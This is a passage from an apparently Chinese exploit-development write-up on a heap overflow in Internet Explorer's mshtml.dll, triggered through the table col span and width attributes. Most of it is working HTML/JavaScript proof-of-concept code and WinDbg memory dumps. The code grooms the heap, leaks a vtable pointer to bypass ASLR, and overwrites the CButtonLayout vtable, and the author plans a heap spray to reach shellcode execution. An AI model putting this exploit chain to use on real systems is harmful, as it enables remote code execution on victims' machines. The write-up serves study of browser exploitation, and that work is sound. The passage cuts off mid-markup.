0215442c 41 00 00 00 e7 be 26 2b 00 00 00 88  A.....&+....
```

再运行一次后，完成溢出，此时`span`为`19`，同时注意到，`BBBB......`的长度字段被改成了`48 00 01 00`，也就是`0x00010048`，那么我们在溢出后，循环判断所有的`al[i]`的长度，超过`(0x100 - 6) / 2`的即为溢出堆块，再根据偏移即可拿到虚表指针，进而获取到`mshtml.dll`模块的基址，这就突破了ASLR的保护
```
02154228 04 10 00 00 04 10 00 00 04 10 00 00 00 00 00 00  ................
02154238 45 00 45 00 41 00 45 00 48 00 01 00
                                             04 10 00 00  E.E.A.E.H.......
02154248 04 10 00 00 04 10 00 00 00 00 00 00 45 00 45 00  ............E.E.
02154258 41 00 45 00 48 00 01 00
                                 04 10 00 00 04 10 00 00  A.E.H...........
02154268 04 10 00 00 00 00 00 00 45 00 45 00 41 00 45 00  ........E.E.A.E.
02154278 48 00 01 00
                     04 10 00 00 04 10 00 00 04 10 00 00  H...............
02154288 00 00 00 00 45 00 45 00 41 00 45 00 48 00 01 00  ....E.E.A.E.H...

02154298 04 10 00 00 04 10 00 00 04 10 00 00 00 00 00 00  ................
021542a8 45 00 45 00 41 00 45 00 48 00 01 00
                                             04 10 00 00  E.E.A.E.H.......
021542b8 04 10 00 00 04 10 00 00 00 00 00 00 45 00 45 00  ............E.E.
021542c8 41 00 45 00 48 00 01 00
                                 04 10 00 00 04 10 00 00  A.E.H...........
021542d8 04 10 00 00 00 00 00 00 45 00 45 00 41 00 45 00  ........E.E.A.E.
021542e8 48 00 01 00
                     04 10 00 00 04 10 00 00 04 10 00 00  H...............
021542f8 00 00 00 00 45 00 45 00 41 00 45 00 48 00 01 00  ....E.E.A.E.H...

02154308 04 10 00 00 04 10 00 00 04 10 00 00 00 00 00 00  ................
02154318 45 00 45 00 41 00 45 00 48 00 01 00
                                             04 10 00 00  E.E.A.E.H.......
02154328 04 10 00 00 04 10 00 00 fa 00 00 00 41 00 41 00  ............A.A.
02154338 41 00 41 00 48 00 01 00
                                 04 10 00 00 04 10 00 00  A.A.H...........
02154348 04 10 00 00 41 00 41 00 41 00 41 00 41 00 41 00  ....A.A.A.A.A.A.
02154358 48 00 01 00
                     04 10 00 00 04 10 00 00 04 10 00 00  H...............
02154368 41 00 41 00 41 00 41 00 41 00 41 00 48 00 01 00  A.A.A.A.A.A.H...

02154378 04 10 00 00 04 10 00 00 04 10 00 00 41 00 41 00  ............A.A.
02154388 41 00 41 00 41 00 41 00 48 00 01 00
                                             04 10 00 00  A.A.A.A.H.......
02154398 04 10 00 00 04 10 00 00 41 00 41 00 41 00 41 00  ........A.A.A.A.
021543a8 41 00 41 00 48 00 01 00
                                 04 10 00 00 04 10 00 00  A.A.H...........
021543b8 04 10 00 00 41 00 41 00 41 00 41 00 41 00 41 00  ....A.A.A.A.A.A.
021543c8 48 00 01 00
                     04 10 00 00 04 10 00 00 04 10 00 00  H...............
021543d8 41 00 41 00 41 00 41 00 41 00 41 00 48 00 01 00  A.A.A.A.A.A.H...

021543e8 04 10 00 00 04 10 00 00 04 10 00 00 41 00 41 00  ............A.A.
021543f8 41 00 41 00 41 00 41 00 48 00 01 00
                                             04 10 00 00  A.A.A.A.H.......
02154408 04 10 00 00 04 10 00 00 41 00 41 00 41 00 41 00  ........A.A.A.A.
02154418 41 00 41 00 48 00 01 00
                                 04 10 00 00 04 10 00 00  A.A.H...........
02154428 04 10 00 00 41 00 00 00 e7 be 26 2b 00 00 00 88  ....A.....&+....
02154438(48 00 01 00)42 00 42 00 42 00 42 00 42 00 42 00  H...B.B.B.B.B.B.
02154448 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
02154458 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
02154468 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
02154478 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
02154488 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
02154498 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
021544a8 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
021544b8 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
021544c8 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
021544d8 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
021544e8 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
021544f8 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
02154508 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
02154518 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
02154528 42 00 42 00 42 00 42 00 42 00 42 00 42 00 00 00  B.B.B.B.B.B.B...
```

我们来完善，触发溢出后，我们循环遍历数组，当长度大于`(0x100 - 6) / 2`的时候，此时就是溢出的堆块，找到堆块后，输出当前堆块的长度，因为是UNICODE字符串，所以输出的值为`0x10048 / 2 = 0x8024 = 32804`，接着根据偏移找到虚表函数指针，再通过偏移相减即可得到`mshtml.dll`模块加载基址
```
<html>
<body>
    <div id="evil"></div>
    <table style="table-layout:fixed">
        <col id="132" width="41" span="9">&nbsp </col>
    </table>
    <script>
        var free = "EEEE";
        while (free.length < 480) free += free;
        var string1 = "AAAA";
        while (string1.length < 480) string1 += string1;
        var string2 = "BBBB";
        while (string2.length < 480) string2 += string2;
        var fr = new Array();
        var al = new Array();
        var div_container = document.getElementById("evil");
        div_container.style.cssText = "display:none";
        for (var i = 0; i < 500; i += 2) {
            fr[i] = free.substring(0, (0x100 - 6) / 2);
            al[i] = string1.substring(0, (0x100 - 6) / 2);
            al[i + 1] = string2.substring(0, (0x100 - 6) / 2);
            var obj = document.createElement("button");
            div_container.appendChild(obj);
        }
        for (var i = 200; i < 500; i += 2) {
            fr[i] = null;
            CollectGarbage();
        }
        function leak() {
            var leak_col = document.getElementById("132");
            leak_col.width = "41";
            leak_col.span = "19";
        }
        function get_leak() {
            var str_addr = -1;
            for (var i = 0; i < 500; i++) {
                if (al[i].length > (0x100 - 6) / 2) {
                    alert(al[i].length.toString(16))
                    var leak = al[i].substring((0x100 - 6) / 2 + (2 + 8) / 2, (0x100 - 6) / 2 + (2 + 8 + 4) / 2);
                    str_addr = parseInt(leak.charCodeAt(1).toString(16) + leak.charCodeAt(0).toString(16), 16);
                    var hex = str_addr.toString(16);
                    alert(hex);
                    break;
                }
            }
        }
        setTimeout("leak();", 400);
        setTimeout("get_leak();", 450);
    </script>
</body>
</html>
```

运行起来后，我们得到内存中`CButtonLayout`虚表指针为`0x666f84f8`，通过`lm`命令获取`mshtml.dll`模块的基址，相减得到虚函数的指针`0x1584f8`

所以，修改代码，获取`mshtml.dll`模块加载基址
```
function get_leak() {
    var str_addr = -1;
    for (var i = 0; i < 500; i++) {
        if (al[i].length > (0x100 - 6) / 2) {
            alert(al[i].length.toString(16))
            var leak = al[i].substring((0x100 - 6) / 2 + (2 + 8) / 2, (0x100 - 6) / 2 + (2 + 8 + 4) / 2);
            str_addr = parseInt(leak.charCodeAt(1).toString(16) + leak.charCodeAt(0).toString(16), 16);
            str_addr = str_addr - 0x1584f8;
            var hex = str_addr.toString(16);
            alert(hex);
            break;
        }
    }
}
```

同时可以使用命令查看`CButtonLayout`的虚表，我特地标注出来了
```
0:008> x mshtml!CButtonLayout::*
6675f069          mshtml!CButtonLayout::GetThemeClassId (<no parameter info>)
667de9c5          mshtml!CButtonLayout::GetInsets (<no parameter info>)
666f8690          mshtml!CButtonLayout::`vftable' = <no type information>
6678cf35          mshtml!CButtonLayout::GetAutoSize (<no parameter info>)
66975a7c          mshtml!CButtonLayout::HitTestContent (<no parameter info>)
6674d2e3          mshtml!CButtonLayout::DrawClientBackground (<no parameter info>)
666f9211          mshtml!CButtonLayout::Init (<no parameter info>)
6678cf35          mshtml!CButtonLayout::GetMultiLine (<no parameter info>)
668e1080          mshtml!CButtonLayout::s_layoutdesc = <no type information>
66975a6c          mshtml!CButtonLayout::GetBtnHelper (<no parameter info>)
669758a7          mshtml!CButtonLayout::GetFocusShape (<no parameter info>)
668e1079          mshtml!CButtonLayout::GetLayoutDesc (<no parameter info>)
66975a07          mshtml!CButtonLayout::DoLayout (<no parameter info>)
6675f069          mshtml!CButtonLayout::GetWordWrap (<no parameter info>)
===> 666f84f8          mshtml!CButtonLayout::`vftable' = <no type information>
6674d2af          mshtml!CButtonLayout::DrawClient (<no parameter info>)
667c36c1          mshtml!CButtonLayout::`scalar deleting destructor' (<no parameter info>)
669756e7          mshtml!CButtonLayout::DrawClientBorder (<no parameter info>)
667c36c1          mshtml!CButtonLayout::`vector deleting destructor' (<no parameter info>)
667deb59          mshtml!CButtonLayout::GetDefaultSize (<no parameter info>)
```

根据偏移查看虚表入口



上面找到漏洞堆的方法也可以使用一开始分析时的方法，直接通过参数来找到分配的堆地址，那个就是漏洞堆

在获取到`mshtml.dll`基址后，此时我们也就绕过了ASLR的保护，接下来应该进行堆喷了

我们这里的思想是：先通过堆喷，将包含Shellcode在内的指令喷射到进程地址空间的`固定位置`，然后再利用堆溢出重写`CButtonLayout`的虚表地址，覆盖的数据即为之前提到的`固定地址`，当虚表被调用到的时候就会跳到我们的代码执行

所以我们先来看如何覆盖地址为`固定地址`

首先重新Attach IE，就下一个断点，获取到漏洞堆地址即可
```
0:013> bu mshtml!CTableLayout::CalculateMinMax+0x18C ".echo vulheap;dd poi(ebx+9c) l4;g"
0:007> bl
     0 e Disable Clear  662ea204     0001 (0001)  0:**** mshtml!CTableLayout::CalculateMinMax+0x208 ".echo vulheap;dd poi(ebx+9c) l4;g"
```

获取到漏洞堆地址为`03129c10`
```
0:013> g
ModLoad: 67870000 67922000   C:\Windows\System32\jscript.dll
vulheap
03129c10  00000674 00450045 00450045 00450045
```

点击`Debug`里的`break`即可断下当前的运行状态

我们跳过去看漏洞堆的情况
```
03129c10 04 10 00 00 04 10 00 00 04 10 00 00 00 00 00 00  ................
03129c20 45 00 45 00 41 00 45 00 48 00 01 00 04 10 00 00  E.E.A.E.H.......
03129c30 04 10 00 00 04 10 00 00 00 00 00 00 45 00 45 00  ............E.E.
03129c40 41 00 45 00 48 00 01 00 04 10 00 00 04 10 00 00  A.E.H...........
03129c50 04 10 00 00 00 00 00 00 45 00 45 00 41 00 45 00  ........E.E.A.E.
03129c60 48 00 01 00 04 10 00 00 04 10 00 00 04 10 00 00  H...............
03129c70 00 00 00 00 45 00 45 00 41 00 45 00 48 00 01 00  ....E.E.A.E.H...
03129c80 04 10 00 00 04 10 00 00 04 10 00 00 00 00 00 00  ................
03129c90 45 00 45 00 41 00 45 00 48 00 01 00 04 10 00 00  E.E.A.E.H.......
03129ca0 04 10 00 00 04 10 00 00 00 00 00 00 45 00 45 00  ............E.E.
03129cb0 41 00 45 00 48 00 01 00 04 10 00 00 04 10 00 00  A.E.H...........
03129cc0 04 10 00 00 00 00 00 00 45 00 45 00 41 00 45 00  ........E.E.A.E.
03129cd0 48 00 01 00 04 10 00 00 04 10 00 00 04 10 00 00  H...............
03129ce0 00 00 00 00 45 00 45 00 41 00 45 00 48 00 01 00  ....E.E.A.E.H...
03129cf0 04 10 00 00 04 10 00 00 04 10 00 00 00 00 00 00  ................
03129d00 45 00 45 00 41 00 45 00 48 00 01 00 04 10 00 00  E.E.A.E.H.......
03129d10 04 10 00 00 04 10 00 00 fa 00 00 00 41 00 41 00  ............A.A.
03129d20 41 00 41 00 48 00 01 00 04 10 00 00 04 10 00 00  A.A.H...........
03129d30 04 10 00 00 41 00 41 00 41 00 41 00 41 00 41 00  ....A.A.A.A.A.A.
03129d40 48 00 01 00 04 10 00 00 04 10 00 00 04 10 00 00  H...............
03129d50 41 00 41 00 41 00 41 00 41 00 41 00 48 00 01 00  A.A.A.A.A.A.H...
03129d60 04 10 00 00 04 10 00 00 04 10 00 00 41 00 41 00  ............A.A.
03129d70 41 00 41 00 41 00 41 00 48 00 01 00 04 10 00 00  A.A.A.A.H.......
03129d80 04 10 00 00 04 10 00 00 41 00 41 00 41 00 41 00  ........A.A.A.A.
03129d90 41 00 41 00 48 00 01 00 04 10 00 00 04 10 00 00  A.A.H...........
03129da0 04 10 00 00 41 00 41 00 41 00 41 00 41 00 41 00  ....A.A.A.A.A.A.
03129db0 48 00 01 00 04 10 00 00 04 10 00 00 04 10 00 00  H...............
03129dc0 41 00 41 00 41 00 41 00 41 00 41 00 48 00 01 00  A.A.A.A.A.A.H...
03129dd0 04 10 00 00 04 10 00 00 04 10 00 00 41 00 41 00  ............A.A.
03129de0 41 00 41 00 41 00 41 00 48 00 01 00 04 10 00 00  A.A.A.A.H.......
03129df0 04 10 00 00 04 10 00 00 41 00 41 00 41 00 41 00  ........A.A.A.A.
03129e00 41 00 41 00 48 00 01 00 04 10 00 00 04 10 00 00  A.A.H...........
03129e10 04 10 00 00 41 00 00 00 eb ad 08 1b 00 00 00 88  ....A...........
03129e20 48 00 01 00 42 00 42 00 42 00 42 00 42 00 42 00  H...B.B.B.B.B.B.
03129e30 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
03129e40 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
03129e50 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
03129e60 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
03129e70 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
03129e80 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
03129e90 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
03129ea0 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
03129eb0 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
03129ec0 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
03129ed0 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
03129ee0 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
03129ef0 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
03129f00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
03129f10 42 00 42 00 42 00 42 00 42 00 42 00 42 00 00 00  B.B.B.B.B.B.B...
03129f20 cc ad 08 1b 00 00 00 8c f8 84 33 66 00 03 39 00  ..........3f..9.
```

为了方便查看，我们手动调一下视图，每一行表示一个`col`，我标出了虚表指针的位置，手动数一数，我们只需要把`span`改为`29`即可覆盖虚表指针
```
03129c10 04 10 00 00 04 10 00 00 04 10 00 00 00 00 00 00 45 00 45 00 41 00 45 00 48 00 01 00  ................E.E.A.E.H...
03129c2c 04 10 00 00 04 10 00 00 04 10 00 00 00 00 00 00 45 00 45 00 41 00 45 00 48 00 01 00  ................E.E.A.E.H...
03129c48 04 10 00 00 04 10 00 00 04 10 00 00 00 00 00 00 45 00 45 00 41 00 45 00 48 00 01 00  ................E.E.A.E.H...
03129c64 04 10 00 00 04 10 00 00 04 10 00 00 00 00 00 00 45 00 45 00 41 00 45 00 48 00 01 00  ................E.E.A.E.H...
03129c80 04 10 00 00 04 10 00 00 04 10 00 00 00 00 00 00 45 00 45 00 41 00 45 00 48 00 01 00  ................E.E.A.E.H...
03129c9c 04 10 00 00 04 10 00 00 04 10 00 00 00 00 00 00 45 00 45 00 41 00 45 00 48 00 01 00  ................E.E.A.E.H...
03129cb8 04 10 00 00 04 10 00 00 04 10 00 00 00 00 00 00 45 00 45 00 41 00 45 00 48 00 01 00  ................E.E.A.E.H...
03129cd4 04 10 00 00 04 10 00 00 04 10 00 00 00 00 00 00 45 00 45 00 41 00 45 00 48 00 01 00  ................E.E.A.E.H...
03129cf0 04 10 00 00 04 10 00 00 04 10 00 00 00 00 00 00 45 00 45 00 41 00 45 00 48 00 01 00  ................E.E.A.E.H...
03129d0c 04 10 00 00 04 10 00 00 04 10 00 00 fa 00 00 00 41 00 41 00 41 00 41 00 48 00 01 00  ................A.A.A.A.H...
03129d28 04 10 00 00 04 10 00 00 04 10 00 00 41 00 41 00 41 00 41 00 41 00 41 00 48 00 01 00  ............A.A.A.A.A.A.H...
03129d44 04 10 00 00 04 10 00 00 04 10 00 00 41 00 41 00 41 00 41 00 41 00 41 00 48 00 01 00  ............A.A.A.A.A.A.H...
03129d60 04 10 00 00 04 10 00 00 04 10 00 00 41 00 41 00 41 00 41 00 41 00 41 00 48 00 01 00  ............A.A.A.A.A.A.H...
03129d7c 04 10 00 00 04 10 00 00 04 10 00 00 41 00 41 00 41 00 41 00 41 00 41 00 48 00 01 00  ............A.A.A.A.A.A.H...
03129d98 04 10 00 00 04 10 00 00 04 10 00 00 41 00 41 00 41 00 41 00 41 00 41 00 48 00 01 00  ............A.A.A.A.A.A.H...
03129db4 04 10 00 00 04 10 00 00 04 10 00 00 41 00 41 00 41 00 41 00 41 00 41 00 48 00 01 00  ............A.A.A.A.A.A.H...
03129dd0 04 10 00 00 04 10 00 00 04 10 00 00 41 00 41 00 41 00 41 00 41 00 41 00 48 00 01 00  ............A.A.A.A.A.A.H...
03129dec 04 10 00 00 04 10 00 00 04 10 00 00 41 00 41 00 41 00 41 00 41 00 41 00 48 00 01 00  ............A.A.A.A.A.A.H...
03129e08 04 10 00 00 04 10 00 00 04 10 00 00 41 00 00 00 eb ad 08 1b 00 00 00 88 48 00 01 00  ............A...........H...
03129e24 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.B.B.B.B.B.B.
03129e40 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.B.B.B.B.B.B.
03129e5c 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.B.B.B.B.B.B.
03129e78 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.B.B.B.B.B.B.
03129e94 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.B.B.B.B.B.B.
03129eb0 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.B.B.B.B.B.B.
03129ecc 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.B.B.B.B.B.B.
03129ee8 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.B.B.B.B.B.B.
03129f04 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 00 00  B.B.B.B.B.B.B.B.B.B.B.B.B...
03129f20 cc ad 08 1b 00 00 00 8c(f8 84 33 66)00 03 39 00 e0 a5 12 03 90 86 33 66 01 00 00 00  ..........3f..9.......3f....
```

再次调试，修改`span`为`29`，因为我们第一次溢出的时候不能覆盖虚表，不然获取不到`mshtml.dll`模块的加载基址，所以此时我们需要再次触发溢出
```
<html>
<body>
    <div id="evil"></div>
    <table style="table-layout:fixed">
        <col id="132" width="41" span="9">&nbsp </col>
    </table>
    <script>
        var free = "EEEE";
        while (free.length < 480) free += free;
        var string1 = "AAAA";
        while (string1.length < 480) string1 += string1;
        var string2 = "BBBB";
        while (string2.length < 480) string2 += string2;
        var fr = new Array();
        var al = new Array();
        var div_container = document.getElementById("evil");
        div_container.style.cssText = "display:none";
        for (var i = 0; i < 500; i += 2) {
            fr[i] = free.substring(0, (0x100 - 6) / 2);
            al[i] = string1.substring(0, (0x100 - 6) / 2);
            al[i + 1] = string2.substring(0, (0x100 - 6) / 2);
            var obj = document.createElement("button");
            div_container.appendChild(obj);
        }
        for (var i = 200; i < 500; i += 2) {
            fr[i] = null;
            CollectGarbage();
        }
        function leak() {
            var leak_col = document.getElementById("132");
            leak_col.width = "41";
            leak_col.span = "19";
        }
        function get_leak() {
            var str_addr = -1;
            for (var i = 0; i < 500; i++) {
                if (al[i].length > (0x100 - 6) / 2) {
                    alert(al[i].length.toString(16))
                    var leak = al[i].substring((0x100 - 6) / 2 + (2 + 8) / 2, (0x100 - 6) / 2 + (2 + 8 + 4) / 2);
                    str_addr = parseInt(leak.charCodeAt(1).toString(16) + leak.charCodeAt(0).toString(16), 16);
                    str_addr = str_addr - 0x1584f8;
                    var hex = str_addr.toString(16);
                    alert(hex);
                }
            }
        }
        function trigger_overflow() {
            var evil_col = document.getElementById("132");
            evil_col.width = "41";
            evil_col.span = "29";
        }
        setTimeout("leak();", 400);
        setTimeout("get_leak();", 450);
        setTimeout("trigger_overflow();", 700);
    </script>
</body>
</html>
```

溢出后再次查看溢出情况，可以看到虚表指针被覆盖成了`04 10 00 00`，也就是`0x00001004 = 41 * 100`
```
02d14898 04 10 00 00 04 10 00 00 04 10 00 00 00 00 00 00 45 00 45 00 41 00 45 00 48 00 01 00  ................E.E.A.E.H...
02d148b4 04 10 00 00 04 10 00 00 04 10 00 00 00 00 00 00 45 00 45 00 41 00 45 00 48 00 01 00  ................E.E.A.E.H...
02d148d0 04 10 00 00 04 10 00 00 04 10 00 00 00 00 00 00 45 00 45 00 41 00 45 00 48 00 01 00  ................E.E.A.E.H...
02d148ec 04 10 00 00 04 10 00 00 04 10 00 00 00 00 00 00 45 00 45 00 41 00 45 00 48 00 01 00  ................E.E.A.E.H...
02d14908 04 10 00 00 04 10 00 00 04 10 00 00 00 00 00 00 45 00 45 00 41 00 45 00 48 00 01 00  ................E.E.A.E.H...
02d14924 04 10 00 00 04 10 00 00 04 10 00 00 00 00 00 00 45 00 45 00 41 00 45 00 48 00 01 00  ................E.E.A.E.H...
02d14940 04 10 00 00 04 10 00 00 04 10 00 00 00 00 00 00 45 00 45 00 41 00 45 00 48 00 01 00  ................E.E.A.E.H...
02d1495c 04 10 00 00 04 10 00 00 04 10 00 00 00 00 00 00 45 00 45 00 41 00 45 00 48 00 01 00  ................E.E.A.E.H...
02d14978 04 10 00 00 04 10 00 00 04 10 00 00 00 00 00 00 45 00 45 00 41 00 45 00 48 00 01 00  ................E.E.A.E.H...
02d14994 04 10 00 00 04 10 00 00 04 10 00 00 fa 00 00 00 41 00 41 00 41 00 41 00 48 00 01 00  ................A.A.A.A.H...
02d149b0 04 10 00 00 04 10 00 00 04 10 00 00 41 00 41 00 41 00 41 00 41 00 41 00 48 00 01 00  ............A.A.A.A.A.A.H...
02d149cc 04 10 00 00 04 10 00 00 04 10 00 00 41 00 41 00 41 00 41 00 41 00 41 00 48 00 01 00  ............A.A.A.A.A.A.H...
02d149e8 04 10 00 00 04 10 00 00 04 10 00 00 41 00 41 00 41 00 41 00 41 00 41 00 48 00 01 00  ............A.A.A.A.A.A.H...
02d14a04 04 10 00 00 04 10 00 00 04 10 00 00 41 00 41 00 41 00 41 00 41 00 41 00 48 00 01 00  ............A.A.A.A.A.A.H...
02d14a20 04 10 00 00 04 10 00 00 04 10 00 00 41 00 41 00 41 00 41 00 41 00 41 00 48 00 01 00  ............A.A.A.A.A.A.H...
02d14a3c 04 10 00 00 04 10 00 00 04 10 00 00 41 00 41 00 41 00 41 00 41 00 41 00 48 00 01 00  ............A.A.A.A.A.A.H...
02d14a58 04 10 00 00 04 10 00 00 04 10 00 00 41 00 41 00 41 00 41 00 41 00 41 00 48 00 01 00  ............A.A.A.A.A.A.H...
02d14a74 04 10 00 00 04 10 00 00 04 10 00 00 41 00 41 00 41 00 41 00 41 00 41 00 48 00 01 00  ............A.A.A.A.A.A.H...
02d14a90 04 10 00 00 04 10 00 00 04 10 00 00 41 00 00 00 30 16 3c 04 00 00 00 88 48 00 01 00  ............A...0.<.....H...
02d14aac 04 10 00 00 04 10 00 00 04 10 00 00 42 00 42 00 42 00 42 00 42 00 42 00 48 00 01 00  ............B.B.B.B.B.B.H...
02d14ac8 04 10 00 00 04 10 00 00 04 10 00 00 42 00 42 00 42 00 42 00 42 00 42 00 48 00 01 00  ............B.B.B.B.B.B.H...
02d14ae4 04 10 00 00 04 10 00 00 04 10 00 00 42 00 42 00 42 00 42 00 42 00 42 00 48 00 01 00  ............B.B.B.B.B.B.H...
02d14b00 04 10 00 00 04 10 00 00 04 10 00 00 42 00 42 00 42 00 42 00 42 00 42 00 48 00 01 00  ............B.B.B.B.B.B.H...
02d14b1c 04 10 00 00 04 10 00 00 04 10 00 00 42 00 42 00 42 00 42 00 42 00 42 00 48 00 01 00  ............B.B.B.B.B.B.H...
02d14b38 04 10 00 00 04 10 00 00 04 10 00 00 42 00 42 00 42 00 42 00 42 00 42 00 48 00 01 00  ............B.B.B.B.B.B.H...
02d14b54 04 10 00 00 04 10 00 00 04 10 00 00 42 00 42 00 42 00 42 00 42 00 42 00 48 00 01 00  ............B.B.B.B.B.B.H...
02d14b70 04 10 00 00 04 10 00 00 04 10 00 00 42 00 42 00 42 00 42 00 42 00 42 00 48 00 01 00  ............B.B.B.B.B.B.H...
02d14b8c 04 10 00 00 04 10 00 00 04 10 00 00 42 00 42 00 42 00 42 00 42 00 42 00 48 00 01 00  ............B.B.B.B.B.B.H...
02d14ba8 04 10 00 00 04 10 00 00(04 10 00 00)78 40 48 00 e0 61 d1 02 90 86 c5 65 48 00 01 00  ............x@H..a.....eH...
```

**## 玄学结束 ##**

这篇文章从这里开始要反转了，因为我是连续调试了很多天，所以我从某一天开始，发现我的代码不好用了，我发现取不到`mshtml.dll`模块加载基址了

在打断点调试后，我发现两个原因
1. 同一次循环内，三个字符串和一个Button不连续排列，导致溢出覆盖不了`BBBB......`的数据
2. 占位的时候，代码有问题

我再次仔细的研究了下大师傅们的文章，然后问了0X9A82师傅，感谢师傅给予的指导，修改后的代码如下，我来解释下为什么和前面的代码不一样

首先要了解的是，在`<body>`标签内，代码执行依照顺序来，如下我们就是先执行一个JS脚本，再分配`<table>`，再执行一个JS脚本

**先关闭hpa调试选项，测试崩溃的时候开启：gflags -i iexplore.exe -hpa**

依旧是先构造250个`EEEE-AAAA-BBBB-Button`这种模式的块，这里是连续的，然后我们释放掉中间的`"EEEE......"`

此时内存中就存在100+个大小为`0x100`的空堆块，然后我们去申请ID从`0 - 132`共133个`<table>`对象，这些对象大小为`0xfc`，之前计算过，所以会占到前面释放的空堆块，我们要打断点观察是否占位到之前释放的堆块
```
<html>
<body>
    <div id="evil"></div>
    <script>
        var free = "EEEE";
        while (free.length < 480) free += free;
        var string1 = "AAAA";
        while (string1.length < 480) string1 += string1;
        var string2 = "BBBB";
        while (string2.length < 480) string2 += string2;
        var fr = new Array();
        var al = new Array();
        var div_container = document.getElementById("evil");
        div_container.style.cssText = "display:none";
        for (var i = 0; i < 500; i+=2) {
            fr[i] = free.substring(0, (0x100 - 6) / 2);
            al[i] = string1.substring(0, (0x100 - 6) / 2);
            al[i+1] = string2.substring(0, (0x100 - 6) / 2);
            var obj = document.createElement("button");
            div_container.appendChild(obj);
        }
        alert("1");
        for (var i = 200; i < 500; i += 2) {
            fr[i] = null;
            CollectGarbage();
        }
    </script>
    <table style="table-layout:fixed" ><col id="0" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="1" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="2" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="3" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="4" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="5" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="6" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="7" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="8" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="9" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="10" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="11" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="12" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="13" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="14" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="15" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="16" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="17" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="18" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="19" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="20" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="21" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col 